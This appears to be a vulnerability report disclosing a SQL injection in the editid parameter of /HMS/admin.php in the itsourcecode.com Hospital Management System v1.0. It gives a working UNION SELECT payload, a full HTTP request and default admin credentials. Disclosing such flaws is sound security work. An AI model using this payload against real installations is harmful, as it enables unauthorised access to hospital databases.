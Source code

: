 # Hospital Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：admin

​		password：123456789

**vendors:** https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/

**Vulnerability url:** /HMS/admin.php?editid=

**Vulnerability location:** /HMS/admin.php

When the Edit button is clicked, a request is sent to query admin information based on editid

![sql_injection1.1](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/hospital-management-system/images/sql_injection1.png)

**[+] Payload:** /HMS/admin.php?editid=1'%20union%20select%201%2cdatabase()%2c3%2c4%2c5%2c6%20limit%201%2c1%23

​	Leak place : editid

**Current database name:** hms

**Request package**：select admin information by editid

```
GET /HMS/admin.php?editid=1'%20union%20select%201%2cdatabase()%2c3%2c4%2c5%2c6%20limit%201%2c1%23 HTTP/1.1
Host: 10.12.171.4
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.12.171.4/HMS/viewadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=t9h6rke4unvvsje2tvam91601p; _ga=GA1.1.1903248581.1656124410; _gid=GA1.1.2042416137.1656124410; _gat=1
Connection: close
```

**SQL injection result**：database name is displayed.

![sql_injection1.2](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/hospital-management-system/images/sql_injection2.png)

